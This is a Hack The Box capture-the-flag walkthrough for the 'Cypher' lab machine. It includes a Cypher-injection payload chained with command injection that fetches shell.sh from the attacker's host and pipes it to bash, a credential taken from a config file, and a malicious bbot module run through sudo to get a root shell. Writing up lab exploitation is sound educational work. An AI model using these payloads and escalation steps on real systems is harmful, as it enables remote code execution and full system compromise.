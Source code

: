 ```yaml
---
clayout: ctf
title: Cypher
date: 2025-05-29
image: /ctf/hack-the-box/machines/cypher/info-card.png
type: Hack The Box
ctf:
    - name: Cypher
      link: https://app.hackthebox.com/machines/650
      thumbnail: /ctf/hack-the-box/machines/cypher/info-card.png
      pwned:
        - link: https://www.hackthebox.com/achievement/machine/585215/650
          thumbnail: /ctf/hack-the-box/machines/cypher/pwned.png
---
```


# Enumeration

## Network Scanning

We start by scanning the machine with `nmap`.

```bash
nmap -sC -sV -v -A -p- -oN nmap.txt 10.10.11.57
```

**Scan Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|_  256 be68db828e6332455446b7087b3b52b0 (ECDSA)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
```

**Summary of Open Ports:**

| Port   | Service | Version       |
| ------ | ------- | ------------- |
| 22/tcp | SSH     | OpenSSH 9.6p1 |
| 80/tcp | HTTP    | nginx 1.24.0  |


## HTTP Enumeration

### Hostname Resolution

The web server on port 80 issues a redirect to `http://cypher.htb/`. To facilitate local name resolution, we add the following entry to `/etc/hosts`:

```bash
echo "10.10.11.57 cypher.htb" | sudo tee -a /etc/hosts
```

### Website Analysis

Accessing `http://cypher.htb` reveals a basic webpage containing a login form:

![Home Page](/ctf/hack-the-box/machines/cypher/home.png)

### Login Form Testing

The login form is located at `http://cypher.htb/login`:

![Login Form](/ctf/hack-the-box/machines/cypher/login.png)

Using the default payload `' or 1=1` we got the following error:

```bash
on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 62 (offset: 61))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = '' OR 1=1' return h.value as hash"
                                                              ^}
```

This reveals that the backend uses **Neo4j** and the **Cypher query language**, with unsanitized user input directly inserted into the query—indicating a **Cypher injection vulnerability**.

### Directory Brute-Forcing with Gobuster

We use `gobuster` to enumerate hidden directories:

```bash
gobuster dir -u http://cypher.htb -w /usr/share/wordlists/dirb/common.txt -t 100 -r -e -s 200,204,301,302,307,401,403
```

**Results:**

![Gobuster Results](/ctf/hack-the-box/machines/cypher/gobuster.png)

We found a `/testing` directory:

![Testing Page](/ctf/hack-the-box/machines/cypher/testing.png)

This directory exposes a file named `custom-apoc-extension-1.0-SNAPSHOT.jar`.

## Vulnerability Discovery

### Custom APOC Extension

Decompiling the `jar` file we found the `CustomFunctions` class with the `getUrlStatusCode` function.

```java
@Description("Returns the HTTP status code for the given URL as a string")
public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
    if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
        url = "https://" + url;
    }

    String[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
    Process process = Runtime.getRuntime().exec(command);
    ...
}
```

The function `getUrlStatusCode` constructs a shell command using unsanitized user input and executes it using `Runtime.getRuntime().exec`, making it vulnerable to **command injection**.

## Exploitation

### Cypher Injection

Using Cypher injection through the login form and chaining it with the vulnerable custom APOC function, we crafted the following payload to gain Remote Code Execution.

```sql
' or 1=1 CALL custom.getUrlStatusCode('http://10.10.14.10:1337/; curl http://10.10.14.10:1337/shell.sh | bash') YIELD statusCode RETURN statusCode as hash //
```

**Shell Obtained:**

![Reverse Shell](/ctf/hack-the-box/machines/cypher/shell.png)

### Local Enumeration

Inspection of `/etc/passwd` revealed the following users:

```bash
root:x:0:0:root:/root:/bin/bash
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
```

Within `/home/graphasm`, we found a `bbot_preset.yml` file containing credentials:

```yaml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

Using these credentials (`graphasm:cU4btyib.20xtCMCXkBmerhK`) we can login via SSH.

```bash
ssh graphasm@10.10.11.57
```

# Privilege Escalation

### Misconfigured Sudo

The `graphasm` user has passwordless sudo access to the `bbot` script.

```bash
$ sudo -l
User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

#### `bbot` Script

```python
#!/opt/pipx/venvs/bbot/bin/python
import re
import sys
from bbot.cli import main

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```

The script executes the `bbot` Python CLI, which can be extended with custom modules.

#### Leveraging a Known Exploit

Referencing a public [GitHub repository](https://github.com/Housma/bbot-privesc/tree/main), we just followed the instructions to create a malicious module to escalate privileges.

**`preset.yml`:**

```yaml
description: System Info Recon Scan
module_dirs:
  - .
modules:
  - systeminfo_enum
```

**`systeminfo_enum.py`:**

```python
from bbot.modules.base import BaseModule
import pty
import os

class systeminfo_enum(BaseModule):
    watched_events = []
    produced_events = []
    flags = ["safe", "passive"]
    meta = {"description": "System Info Recon (actually spawns root shell)"}

    async def setup(self):
        self.hugesuccess("📡 systeminfo_enum setup called — launching shell!")
        try:
            pty.spawn(["/bin/bash", "-p"])
        except Exception as e:
            self.error(f"❌ Shell failed: {e}")
        return True
```

We can now run the `bbot` script with the `preset.yml` file and get a root shell.

```bash
sudo /usr/local/bin/bbot -t dummy.com -p /home/graphasm/preset.yml --event-types ROOT
```

**Root Shell Acquired:**

![Root Shell](/ctf/hack-the-box/machines/cypher/root.png)

The root flag is in the `/root/root.txt` file.
